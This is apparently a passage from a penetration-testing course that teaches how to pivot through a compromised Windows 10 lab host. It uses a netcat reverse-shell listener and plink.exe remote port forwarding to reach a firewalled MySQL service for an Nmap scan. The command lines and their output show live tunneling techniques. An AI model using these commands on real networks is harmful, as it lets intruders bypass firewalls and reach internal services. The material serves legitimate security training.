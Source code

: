 To demonstrate this, assume that we have gained access to a Windows 10 machine during our assessment through a vulnerability in the Sync Breeze software and have obtained a SYSTEM-level reverse shell.

```
kali@kali:~$ sudo nc -lnvp 443
listening on [any] 443 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 49937
Microsoft Windows [Version 10.0.16299.309]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

During the enumeration and information gathering process, we discover a MySQL service running on TCP port 3306.

```
C:\Windows\system32>netstat -anpb TCP
netstat -anpb TCP 

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING
 [syncbrs.exe]
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  RpcSs
 [svchost.exe]
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
 Can not obtain ownership information
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING
 [mysqld.exe]
```

We would like to scan this database or interact with the service. However, because of the firewall, we cannot directly interact with this service from our Kali machine.

We will transfer [plink.exe](http://the.earth.li/~sgtatham/putty/0.53b/htmldoc/Chapter7.html), a Windows-based command line SSH client (part of the PuTTY project) to the target to overcome this limitation. The program syntax is similar to the UNIX-based ssh client:

```c
C:\Tools\port_redirection_and_tunneling> plink.exe
plink.exe
Plink: command-line connection utility
Release 0.70
Usage: plink [options] [user@]host [command]
       ("host" can also be a PuTTY saved session name)
Options:
  -V        print version information and exit
  -pgpfp    print PGP key fingerprints and exit
  -v        show verbose messages
  -load sessname  Load settings from saved session
  -ssh -telnet -rlogin -raw -serial
            force use of a particular protocol
  -P port   connect to specified port
  -l user   connect with specified username
  -batch    disable all interactive prompts
  -proxycmd command
            use 'command' as local proxy
  -sercfg configuration-string (e.g. 19200,8,n,1,X)
            Specify the serial configuration (serial only)
The following options only apply to SSH connections:
  -pw passw login with specified password
  -D [listen-IP:]listen-port
            Dynamic SOCKS-based port forwarding
  -L [listen-IP:]listen-port:host:port
            Forward local port to remote address
  -R [listen-IP:]listen-port:host:port
            Forward remote port to local address
  -X -x     enable / disable X11 forwarding
  -A -a     enable / disable agent forwarding
  -t -T     enable / disable pty allocation
...
```

We can use plink.exe to connect via SSH (-ssh) to our Kali machine (10.11.0.4) as the kali user (-l kali) with a password of "ilak" (-pw ilak) to create a remote port forward (-R) of port 1234 (10.11.0.4:1234) to the MySQL port on the Windows target (127.0.0.1:3306) with the following command:

```
C:\Tools\port_redirection_and_tunneling> plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

The first time plink connects to a host, it will attempt to cache the host key in the registry. If we run the command through an rdesktop connection to the Windows client, we can see this interactive step:

![Figure 6: Interaction required by PLINK when dealing with unknown hosts](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/port_redirection_and_tunneling/71556bff5f55423bddbf64dcc8b4ee3d-port_redirection_and_tunneling_02a.png)

However, since this will most likely not work with the interactivity level we have in a typical reverse shell, we should pipe the answer to the prompt with the cmd.exe /c echo y command. From our reverse shell, then, this command will successfully establish the remote port forward without any interaction:

```
C:\Tools\port_redirection_and_tunneling> cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
cmd.exe /c echo y | plink.exe -ssh -l root -pw toor -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
kali@kali:~$  
```

Now that our tunnel is active, we can attempt to launch an Nmap scan of the target's MySQL port via our localhost port forward on TCP port 1234:

```
kali@kali:~$ sudo nmap -sS -sV 127.0.0.1 -p 1234

Starting Nmap 7.60 ( https://nmap.org ) at 2019-04-20 05:00 EEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00026s latency).

PORT     STATE SERVICE VERSION
1234/tcp open  mysql   MySQL 5.5.5-10.1.31-MariaDB

Nmap done: 1 IP address (1 host up) scanned in 0.93 seconds
```

The setup seems to be working. We have successfully scanned the Windows 10 machine's SQL service through a remote port forward on our Kali attack machine.